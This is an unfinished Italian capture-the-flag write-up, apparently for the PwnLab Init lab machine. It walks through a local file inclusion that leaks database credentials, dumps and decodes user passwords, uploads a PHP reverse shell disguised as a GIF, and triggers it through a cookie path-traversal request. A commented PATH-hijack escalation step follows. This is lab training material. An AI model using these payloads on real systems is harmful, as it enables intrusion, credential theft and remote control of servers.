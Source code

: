 # PWN_LAB INIT


## NETDISCOVER 👨‍💻
Prima di tutto eseguiamo un netdiscover per scoprire l'indirizzo ip della macchina 
```
netdiscover 10.211.55.0/24
Currently scanning: Finished! | Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 2 hosts. Total size: 126
_____________________________________________________________________________ 
IP At MAC Address Count Len MAC Vendor / Hostname
----------------------------------------------------------------------------- 
10.211.55.1 00:1c:42:00:00:18 1 42 Parallels, Inc. 
10.211.55.17 00:1c:42:4d:69:40 2 84 Parallels, Inc.
```

Il primo indirizzo é il nostro (macchina kali), la macchina da attaccare é il secondo ip della lista.

## NMAP 🔍
```
nmap -sV -sC 10.211.55.17
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-16 15:02 CEST Nmap scan report for pwnlab-vulnhub.shared (10.211.55.17)
Host is up (0.00012s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.10 ((Debian)) |_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
...
3306/tcp open mysql MySQL 5.5.47-0+deb8u1
| mysql-info:
| Protocol: 10
| Version: 5.5.47-0+deb8u1
| Thread ID: 39
| Capabilities flags: 63487
| Some Capabilities: SupportsLoadDataLocal, Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ConnectWithDatabase, InteractiveClient, FoundRows, Speaks41ProtocolNew, ODBCClient, SupportsCompression, LongPassword, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
| Status: Autocommit
| Salt: =sK^vV+r|=Vxyvdt;gv<
|_ Auth Plugin Name: mysql_native_password
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```
Nmap ci fornisce due informazioni importanti:
1. la porta 80 è aperta su un webserver Apache
2. la porta 3306 è paerta su un database MySQL

Visto che abbiamo trovato la porta _80_ aperta, apriamo l'url in un browser.
Il sito sembra molto semplice e "fatto in casa".
La pagina principale è `http://192.168.1.88/index.php`
Sotto vediamo un format in cui si vedono una sezione **login** e una **upload**.
* la sezione _login_ presenta un form di accesso
* la sezione _upload_ permette di caricare file (il che ci fa capire dove potremmo agganciare la nostra _reverse shell_


## LOGIN PAGE 🛠

La cosa interessante da notare è che se clicchiamo nella sezione di login ci accorgiamo che non viene caricata una pagina nuova, ma la pagina è _inclusa_ in quella principale (un cosiddetto LFI - _Local FIle Inclusion_).
Ciò lo possiamo dedurre dal formato dell'url: http://192.168.1.88/**?page=login**

Questo fatto ci indirizza verso un possibile exploit nel lato _php_ ; la pagina principale include le altre in un modo che possiamo ipotizzare con

```php
include($_GET['page'] . '.php');
```
Se proviamo a passare qualsiasi cosa a `page= ` non vi viene restituito nulla.
Se in un terminale eseguiamo `curl http://192.168.1.88/?page=index` vediamo che abbiamo un loop ricorsivo della pagina di `index`, il che significa proprio che le pagine vengono incluse.

Come possiamo però farci restituire il codice php della pagina ?
https://www.php.net/manual/en/wrappers.php

```
curl -s http://10.211.55.17/?page=php://filter/convert.base64-encode/resource=config
```
Analizziamo il comando: stiamo eseguendo una filter del codice php e lo stiamo codificando in modo tale che il broswer non interpreti il php, cosí da farci restituire il codice php come stringa codificata. In seguito decodifichiamo quello che é stato codificato in base64.
```
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ] <hr/><br/> PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRS center>
</body>
</html>
```
Decodifichiamo
```
echo "PD9waHANCiRzZXJ2ZXIJICA9I...lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVR" | base64 -d
```
Otteniamo il codice php in chiaro.
```
<?php
$server = "localhost"; 
$username = "root"; 
$password = "H4u%QJ_H99"; 
$database = "Users";
?>
```
Proviamo ad entrare su mysql con queste credenziali
```
mysql -h 10.211.55.17 -u root -p
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g. Your MySQL connection id is 114764
Server version: 5.5.47-0+deb8u1 (Debian)
...
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.002 sec)
...
MySQL [(none)]> use Users;
...
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
MySQL [Users]> Select * from users; 
+------+------------------+
| user | pass             | 
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== | 
| kane | aVN2NVltMkdSbw== | 
+------+------------------+
```
Anche le password sono codificate in base64.  
Proviamo a loggarci con  
* user: `kent`  
* password: _Sld6WHVCSkpOeQ==_ (decodificata ->) `JWzXuBJJNy`

Perfetto, ci siamo loggati.

Ora proviamo a caricare la nostra reverse shell. 
Impossibile: possiamo caricare solo immagini, quindi dobbiamo trovare il modo di caricare la nostra reverse shell come una immagine.


## REVERSE SHELL 🔁
Per caricare la reverse shell, prendiamo il file in php (se usate Kali */usr/share/webshells/php-reverse-shell.php*), modificando  IP e porta con quelli della nostra macchina. Ora aggiungiamo in testa una stringa che rappresenta l'header di un file GIF (`GIF89`) e cambiamo l'estensione in `.gif`.
Carichiamo la nostra reverse shell modificata e facciamo partire netcat sulla nostra macchina (`nc -lvnp [port]`)
Il file è correttamente caricato nella cartella **/uploads** del browser.
Per far esegure la shell caricata sul web server sfruttiamo **burpsuite** (oppure **curl**) eseguendo la seguente GET (**attenzione al nome del file che abbiamo caricato nel cookie!**)
* TODO: aggiungere il comando curl usato
* TODO: spiegare il perché si utilizza il cookie con `lang=...`
```
GET / HTTP/1.1
Host: 10.211.55.17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/ signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: lang=../upload/3eaa8ef68810b5720fdb48484d9b24ff.gif
If-None-Match: W/"17c7-5a5e2980343c0"
If-Modified-Since: Mon, 18 May 2020 02:05:15 GMT
Connection: close
```

## PRIVILEDGE ESCALATION 💵

<!-- si doveva modificare il comportamento di cat e poi chiamare un eseguibile che potevamo chiamare senza sudo: echo “/bin/sh/” > cat PATH=.:$PATH -->

## ROOT FLAG 🏴‍☠️
* TODO
